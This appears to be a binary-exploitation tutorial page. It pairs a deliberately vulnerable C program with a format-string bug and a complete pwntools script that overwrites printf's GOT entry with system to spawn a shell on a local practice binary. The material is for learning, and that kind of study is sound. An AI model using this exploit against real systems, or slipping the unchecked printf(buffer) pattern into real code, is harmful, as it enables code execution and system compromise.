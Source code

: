 # Exploiting a GOT overwrite

## Source

{% file src="../../../.gitbook/assets/got-overwrite-32.zip" caption="GOT Overwrite - 32-bit" %}

The very simplest of possible GOT-overwrite binaries.

```c
#include <stdio.h>

void vuln() {
    char buffer[300];
    
    while(1) {
        fgets(buffer, sizeof(buffer), stdin);

        printf(buffer);
        puts("");
    }
}

int main() {
    vuln();

    return 0;
}
```

Infinite loop which takes in your input and prints it out to you using `printf` - no buffer overflow, just format string. Let's assume ASLR is disabled - have a go yourself :\)

## Exploitation

As per usual, set it all up

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()
```

Now, to do the `%n` overwrite, we need to find the offset until we start reading the buffer.

```text
$ ./got_overwrite 

%p %p %p %p %p %p
0x12c 0xf7fa7580 0x8049191 0x340 0x25207025 0x70252070
```

Looks like it's the 5th.

```text
$./got_overwrite
 
%5$p
0x70243525
```

Yes it is!

```python
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.interactive()
```

Now, next time `printf` gets called on your input it'll actually be `system`!

If the buffer is restrictive, you can always send `/bin/sh` to get you into a shell and run longer commands.

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```

## 64-bit

You'll never guess. That's right! You can do this one by yourself.

{% file src="../../../.gitbook/assets/got-overwrite-64.zip" caption="GOT Overwrite - 64-bit" %}

## ASLR Enabled

If you want an additional challenge, re-enable ASLR and do the 32-bit and 64-bit exploits again; you'll have to leverage what we've covered previously.

{% file src="../../../.gitbook/assets/got-overwrite-aslr.zip" caption="GOT Overwrite - ASLR Exploit Scripts" %}

